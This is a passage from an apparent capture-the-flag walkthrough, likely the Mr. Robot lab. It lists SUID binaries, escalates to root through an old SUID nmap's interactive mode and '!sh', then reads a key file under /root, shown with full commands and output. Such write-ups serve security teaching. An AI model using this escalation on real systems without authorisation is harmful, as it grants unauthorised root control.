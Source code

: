
Run commands to find SUID:
  
```sh
find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \;

-rwsr-xr-x 1 root root 44168 May  7  2014 /bin/ping
-rwsr-xr-x 1 root root 69120 Feb 12  2015 /bin/umount
-rwsr-xr-x 1 root root 94792 Feb 12  2015 /bin/mount
-rwsr-xr-x 1 root root 44680 May  7  2014 /bin/ping6
-rwsr-xr-x 1 root root 36936 Feb 17  2014 /bin/su
-rwsr-xr-x 1 root root 47032 Feb 17  2014 /usr/bin/passwd
-rwsr-xr-x 1 root root 32464 Feb 17  2014 /usr/bin/newgrp
-rwsr-xr-x 1 root root 41336 Feb 17  2014 /usr/bin/chsh
-rwsr-xr-x 1 root root 46424 Feb 17  2014 /usr/bin/chfn
-rwsr-xr-x 1 root root 68152 Feb 17  2014 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 155008 Mar 12  2015 /usr/bin/sudo
-rwsr-xr-x 1 root root 504736 Nov 13  2015 /usr/local/bin/nmap
-rwsr-xr-x 1 root root 440416 May 12  2014 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 10240 Feb 25  2014 /usr/lib/eject/dmcrypt-get-device
-r-sr-xr-x 1 root root 9532 Nov 13  2015 /usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
-r-sr-xr-x 1 root root 14320 Nov 13  2015 /usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
-rwsr-xr-x 1 root root 10344 Feb 25  2015 /usr/lib/pt_chown

```
  

One command is interesting. The **nmap** command. Lets check [GTFobis](https://gtfobins.github.io/gtfobins/nmap/) for escalating.
  
<ins>Nmap SUID escalation:</ins>  
  

In the sections "shell" at point "b)" you could fint the right and simple solution to escalate.
Lets do this:  
  

```sh
robot@linux:~$ /usr/local/bin/nmap -v
/usr/local/bin/nmap -v

Starting nmap 3.81 ( http://www.insecure.org/nmap/ ) at 2020-11-09 14:40 UTC
No target machines/networks specified!
QUITTING!
```
  
Right Version? **Check!**



```
robot@linux:~$ /usr/local/bin/nmap --interactive
/usr/local/bin/nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
# id
id
uid=1002(robot) gid=1002(robot) euid=0(root) groups=0(root),1002(robot)
# find / -type f -name "*key-3-*" 2>/dev/null
find / -type f -name "*key-3-*" 2>/dev/null
/root/key-3-of-3.txt
# cat /root/key-3-of-3.txt
cat /root/key-3-of-3.txt
FindTheKeyOnYourOwn
# 
```
  